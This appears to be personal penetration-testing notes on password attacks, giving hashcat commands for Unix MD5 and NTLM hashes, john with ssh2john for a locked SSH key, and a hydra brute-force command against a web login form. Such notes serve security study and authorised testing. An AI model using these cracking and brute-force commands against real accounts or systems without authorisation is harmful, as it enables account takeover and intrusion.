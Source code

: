 # Password Attacks

This page is were I'll store all of my password attacking commands and tips. For local hash cracking I'll usually default to Hashcat. Hashcat is going to work best when running on your host machine rather than inside of a VM, especially if your host machine has a video card installed. When utilizing a graphics card Hashcat can be _much_ faster than john the ripper, but there are still some cases where we'll use the tools provided by `john`.

## Wordlists

* [seclists](https://github.com/danielmiessler/SecLists)
* `apt install wordlists`
  - `/usr/share/wordlists/rockyou.txt.gz`

## Hash Cracking

### Unix MD5 Hashes:

```bash
 echo '$1$cVbu7POZ$WB/V36i/G00QKzHkkqWig/' > hashes.txt
 .\hashcat64.exe -o cracked.txt -m 500 .\hashes.txt .\rockyou.txt
 cat cracked.txt
```

### Windows NTLM Hashes:

```bash
echo C5E0002FDE3F5EB2CF5730FFEE58EBCC > hashes.txt
.\hashcat64.exe -o cracked.txt -m 1000 .\hashes.txt .\rockyou.txt
cat cracked.txt
```

### Password Locked Private RSA Key:

This is going to be one of the few times where we use `john`.

```bash
python /usr/share/john/ssh2john.py locked_key.pem > locked_key.hash
john --wordlist=/usr/share/wordlists/rockyou.txt joanna.hash
```

## Web Applications

### HTTP Post Form:

```bash
hydra -P /usr/share/wordlists/nmap.lst -l admin 10.10.10.10 http-post-form "/path/to/login/admin.php:username=^USER^&password=^PASS^:Incorrect"
```

